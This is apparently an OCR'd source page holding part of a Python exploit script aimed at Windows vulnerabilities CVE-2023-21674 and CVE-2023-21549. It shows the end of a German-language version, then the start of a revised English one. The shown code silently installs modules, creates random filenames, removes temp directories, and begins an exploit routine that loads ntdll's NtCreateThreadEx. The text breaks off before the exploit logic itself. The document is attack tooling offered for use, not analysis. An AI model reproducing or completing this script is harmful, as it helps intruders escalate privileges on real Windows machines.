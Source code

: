         exploit_cve_2023_21674(args.output_dir)


        exploit_cve_2023_21549()

        print("[+] Exploit-Skript abgeschlossen.")
    else:
        print("[FEHLER] Nicht alle benötigten Module konnten installiert werden. Skriptabbruch.")



überarbeitet 


```python
import ctypes
import ctypes.wintypes
import subprocess
import random
import os
import tempfile
import time
import argparse
import sys
import shutil

def check_and_install_module(module_name):
    """Checks and installs the required Python module."""
    try:
        __import__(module_name)
        print(f"[INFO] Module '{module_name}' is already installed.")
        return True
    except ImportError:
        print(f"[INFO] Module '{module_name}' is not installed. Starting installation...")
        try:
            subprocess.check_call([sys.executable, '-m', 'pip', 'install', module_name], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
            print(f"[INFO] Module '{module_name}' successfully installed.")
            return True
        except subprocess.CalledProcessError as e:
            print(f"[ERROR] Error installing '{module_name}': {e}")
            return False

def remove_temp_files(temp_dir):
    """Recursively removes a directory and all its contents."""
    try:
        if os.path.exists(temp_dir):
            shutil.rmtree(temp_dir)
            print(f"[INFO] Temporary directory '{temp_dir}' and contents removed.")
    except Exception as e:
        print(f"[ERROR] Error removing '{temp_dir}': {e}")

def generate_random_filename(length=8):
    """Generates a random filename."""
    chars = "abcdef0123456789"
    return ''.join(random.choice(chars) for _ in range(length))

def exploit_cve_2023_21674(output_dir=None):
    """Exploits CVE-2023-21674."""
    try:
        kernel32 = ctypes.windll.kernel32
        ntdll = ctypes.windll.ntdll

        if not kernel32 or not ntdll:
            raise OSError("[ERROR] DLLs could not be loaded.")

        NtCreateThreadEx = ntdll.NtCreateThreadEx
```